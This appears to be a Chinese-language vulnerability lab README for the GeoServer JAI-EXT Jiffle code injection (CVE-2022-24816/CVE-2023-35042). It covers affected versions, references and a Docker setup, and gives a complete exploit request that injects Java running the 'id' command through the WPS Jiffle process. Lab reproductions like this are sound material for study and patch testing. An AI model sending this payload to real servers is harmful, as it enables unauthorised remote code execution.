

# GeoServer JAI-EXT 导致远程代码注入漏洞（CVE-2022-24816/CVE-2023-35042）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

GeoServer 使用 JAI-EXT 提供的 Jiffle 地图代数语言，这让使用者可以高效地在大图像上执行地图查询。在 JAI-EXT 1.2.21 及更早版本中存在一个代码注入漏洞（CVE-2022-24816），该漏洞允许攻击者通过精心构造的 Jiffle 调用来执行远程代码。

在 GeoServer 中，这个漏洞也被称为 [CVE-2023-35042](https://osgeo-org.atlassian.net/browse/GEOS-10458)。GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复了这个问题。

参考链接：

- <https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver>
- <https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx>
- <https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html>
- <https://osgeo-org.atlassian.net/browse/GEOS-10458>
- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml>

## 漏洞环境

执行如下命令启动一个GeoServer 2.17.2服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

漏洞存在于WMS接口中。攻击者可以通过向`/geoserver/wms`发送特制的请求来执行任意Java代码。请求中需要包含一个恶意的Jiffle表达式，这个表达式将被服务器执行。

发送如下请求来复现漏洞：

```
POST /geoserver/wms HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 2191

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```

这样，数据包中的Jiffle表达式中的Java代码将被服务器执行，执行结果将返回在`java.lang.ExceptionInInitializerError`消息中：


